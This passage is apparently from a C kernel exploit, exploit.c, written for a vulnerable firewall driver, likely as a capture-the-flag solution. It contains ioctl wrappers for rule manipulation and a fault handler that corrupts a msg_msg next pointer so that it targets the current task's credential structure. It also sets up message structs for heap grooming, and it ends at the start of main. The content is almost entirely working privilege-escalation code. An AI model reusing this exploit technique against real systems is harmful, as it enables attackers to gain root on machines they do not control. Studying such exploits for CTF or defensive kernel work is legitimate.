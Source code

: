 ```exploit.c
    .type = type,
    .idx = idx,
  };
  long result = firewall_ioctl(DELETE_RULE, &rule);
  assert(result == SUCCESS);
  return;
}

long edit_rule(char *iface, char *name, uint8_t idx, uint8_t type, char *ip, char *netmask, ulong port) {
  user_rule_t rule = {
    .type = type,
    .idx = idx,
    .proto = IPPROTO_TCP,
    .port = port,
    .action = NF_ACCEPT,
  };
  memcpy(rule.iface, iface, 16);
  memcpy(rule.name, name, 16);
  if (ip == NULL ) strcpy(rule.ip, "0.0.0.0");
  else strcpy(rule.ip, ip);
  if (netmask == NULL) strcpy(rule.netmask, "0.0.0.0");
  else strcpy(rule.netmask, netmask);
  return firewall_ioctl(EDIT_RULE, &rule);
}

void edit_rule_preserve(char *iface, char *name, uint8_t idx, uint8_t type) {
  char *ip_buf = calloc(0x20, 1);
  strcpy(ip_buf, "NIRUGIRI\x00");
  assert(edit_rule(iface, name, idx, type, ip_buf, NULL, 0) == ERROR);
}

char *ntop(uint32_t v) {
  char *s = calloc(1, 0x30);
  unsigned char v0 = (v >> 24) & 0xFF;
  unsigned char v1 = (v >> 16) & 0xFF;
  unsigned char v2 = (v >> 8) & 0xFF;
  unsigned char v3 = v & 0xFF;
  sprintf(s, "%d.%d.%d.%d", v3, v2, v1, v0);
  return s;
}

void handle_fault(ulong arg) {
  const ulong target = target_task + CRED_OFFSET - 8 - 8;
  printf("[+] overwriting temp msg_msg.next with 0x%lx\n", target);
  memset(buf_iface, 0, 0x10); // m_list
  ((long*)buf_name)[0] = 1; // m_type
  ((long*)buf_name)[1] = DATALEN_MSG + 0x10 + 8; // m_ts
  strcpy(buf_ip, ntop(target)); // next & 0xFFFFFFFF
  strcpy(buf_netmask, ntop(target>> 32)); // next & (0xFFFFFFFF << 32)
  edit_rule(buf_iface, buf_name, 1, OUTBOUND, buf_ip, buf_netmask, 0);
}

struct msg4k {
  long mtype;
  char mtext[PAGE - 0x30];
};

int main(int argc, char *argv[]) {
  puts("[ ] Hello, world.");
  firewall_fd = open(DEV_PATH, O_RDWR);
  assert(firewall_fd >= 2);

```